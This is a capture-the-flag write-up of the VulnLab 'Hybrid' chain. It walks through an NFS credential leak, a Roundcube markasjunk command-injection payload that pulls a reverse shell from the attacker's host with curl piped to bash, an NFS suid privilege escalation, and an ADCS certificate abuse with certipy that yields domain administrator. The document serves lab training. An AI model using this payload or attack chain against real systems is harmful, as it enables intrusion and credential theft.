# Hybrid (chain) (easy)

## port scan

mail01.hybrid.vl



dc01.hybrid.vl




## service enumeration

mail01 have web service called Roundcube Webmail 



mail01 also have nfs service




## nfs discover

`/opt/share` found on nfs share



we can use mount command without permission to mount remote folder

```bash
 sudo mount -t nfs 10.10.217.118:/opt/share /home/sh4n4c1/lab/vulnlab/hybrid/mnt/
```





there have some cred in `dovecot-users` file



we can use admin cred login roundcubes



admin say that he enable junk filter plugin on roundcubes 



## markasjunk exploit 

we can see detail on `about`. The plugin called `markasjunk`



seems we have RCE



https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/



so my payload is 

```
admin&curl${IFS}10.8.1.167|bash&@roundcube.com
```

add reverse shell into index.html. and then open webserver, change admin email address on setting. 



last step, click `Junk`



we have shell!



## login as peter.turner

since we mount mail01 /opt/share, we can upload suid binary, but 
 /etc/exports config disable it
 
 https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
 
 

but we upload suid same as peter.tunrner user id



change /etc/login.defs MAX uid






download bash from mail01, upload it to mnt folder and `chmod +s /mnt/vulnlab/bash`


we are now peter.turner user




there have a passwords.kdbx file 



the password is found in `dovecot-users` (nfs dump)






work!



## adcs attack

just like vulnlab's Retro box, we found a Vulnerabilities template. but only `Domain Computers` can enroll.




now we need a computer cred, looks like we can run any command as root on mail01



download /etc/krb5.keytab and extract mail01$ hash




```bash
certipy-ad req -u 'mail01$'@hybrid.vl -hashes ':$hash' -c 'hybrid-DC01-CA' -target "$t1" -template 'HybridComputers' -upn 'adm
inistrator' -key-size 4096


certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip "$t1"
```



